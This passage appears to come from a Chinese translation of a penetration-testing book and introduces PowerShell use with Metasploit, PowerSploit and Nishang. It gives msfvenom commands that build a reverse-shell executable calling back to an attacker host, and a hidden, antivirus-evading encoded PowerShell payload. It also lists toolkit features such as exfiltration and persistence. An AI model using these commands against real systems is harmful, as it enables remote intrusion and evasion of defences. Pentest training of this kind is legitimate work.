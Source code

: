 ```
msf> search powershell
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00228.jpeg)

在第四章，*活动目录利用*中，您学习了如何使用 PowerShell 执行一些任务。现在是时候学习如何使用 PowerShell 与 Metasploit。例如，您可以使用`msfvenom`实用程序将 PowerShell 脚本转换为可执行文件进行演示：

```
>msfvenom    -p    windows/powershell_reverse_tcp LHOST=192.168.1.39    LPORT=4444    -f    exe    >    evilPS.exe >msfvenom  -p     windows/exec     CMD=“powershell     -ep     bypass     -W     Hidden     -enc   [Powershell script Here]”    -f    exe    -e    x86/shikata_ga_nai    -o   /root/home/ghost/Desktop/power.exe
```

# PowerSploit

PowerSploit 是信息安全专业人员，特别是渗透测试人员使用的一组令人惊叹的 PowerShell 脚本。要下载 PowerSploit，您需要从其官方 GitHub 存储库[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)获取：

```
# git clone https://github.com/PowerShellMafia/PowerSploit 
```

克隆项目后，使用`ls`命令列出文件：

从以下截图中，您可以注意到 PowerSploit 包含许多惊人的脚本，用于执行许多任务，例如：

+   `绕过杀毒软件`

+   `外泄`

+   ``持久性``

+   `PowerSploit`

+   `PowerUp`

+   `PowerView`

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-infra-pentest/img/00229.jpeg)

# Nishang - 用于渗透测试的 PowerShell

Nishang 是一个用于执行许多渗透测试阶段任务的工具集。您可以从[`github.com/samratashok/nishang`](https://github.com/samratashok/nishang)获取它：

```
# git clone https://github.com/samratashok/nishang
```

从下载的项目列表中可以看出，Nishang 加载了许多不同的脚本和实用程序，用于在渗透测试任务期间执行许多所需的任务，例如：

+   **权限提升**

+   **扫描**
